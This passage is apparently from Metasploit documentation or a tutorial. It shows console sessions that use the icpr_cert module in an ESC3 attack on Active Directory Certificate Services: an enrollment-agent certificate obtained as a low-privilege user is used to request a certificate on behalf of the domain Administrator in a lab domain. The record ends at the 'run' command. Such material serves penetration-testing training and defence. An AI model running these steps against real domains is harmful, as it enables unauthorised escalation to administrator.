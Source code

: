 ```
host  service  type           name             content               info                         path
----  -------  ----           ----             -------               ----                         ----
               windows.ad.cs  certificate.pfx  application/x-pkcs12  DAFOREST\normal Certificate  /home/gwillcox/.msf4/loot/20221216173718_default_unknown_windows.ad.cs_580032.pfx
               windows.ad.cs  certificate.pfx  application/x-pkcs12  DAFOREST\normal Certificate  /home/gwillcox/.msf4/loot/20221216174221_default_unknown_windows.ad.cs_027866.pfx

msf6 auxiliary(admin/dcerpc/icpr_cert) >
```

Next we'll try use this certificate to request another certificate on behalf of a different user. For this stage we need to specify another certificate that is vulnerable to the ESC3_TEMPLATE_2 attack vector that we are able to enroll in. We will use the `User` template for this:

```
msf6 auxiliary(admin/dcerpc/icpr_cert) > set PFX /home/gwillcox/.msf4/loot/20221216174221_default_unknown_windows.ad.cs_027866.pfx
PFX => /home/gwillcox/.msf4/loot/20221216174221_default_unknown_windows.ad.cs_027866.pfx
msf6 auxiliary(admin/dcerpc/icpr_cert) > set ON_BEHALF_OF DAFOREST\\Administrator
ON_BEHALF_OF => DAFOREST\Administrator
msf6 auxiliary(admin/dcerpc/icpr_cert) > show options

Module options (auxiliary/admin/dcerpc/icpr_cert):

   Name           Current Setting                 Required  Description
   ----           ---------------                 --------  -----------
   ALT_DNS                                        no        Alternative certificate DNS
   ALT_UPN                                        no        Alternative certificate UPN (format: USER@DOMAIN)
   CA             daforest-WIN-BR0CCBA815B-CA     yes       The target certificate authority
   CERT_TEMPLATE  ESC3-Template1                  yes       The certificate template
   ON_BEHALF_OF   DAFOREST\Administrator          no        Username to request on behalf of (format: DOMAIN\USE
                                                            R)
   PFX            /home/gwillcox/.msf4/loot/2022  no        Certificate to request on behalf of
                  1216174221_default_unknown_win
                  dows.ad.cs_027866.pfx
   RHOSTS         172.30.239.85                   yes       The target host(s), see https://github.com/rapid7/me
                                                            tasploit-framework/wiki/Using-Metasploit
   RPORT          445                             yes       The target port (TCP)
   SMBDomain      DAFOREST                        no        The Windows domain to use for authentication
   SMBPass        normaluser                      no        The password for the specified username
   SMBUser        normal                          no        The username to authenticate as


Auxiliary action:

   Name          Description
   ----          -----------
   REQUEST_CERT  Request a certificate



View the full module info with the info, or info -d command.

msf6 auxiliary(admin/dcerpc/icpr_cert) > set CERT_TEMPLATE User
CERT_TEMPLATE => User
msf6 auxiliary(admin/dcerpc/icpr_cert) > run
[*] Running module against 172.30.239.85
```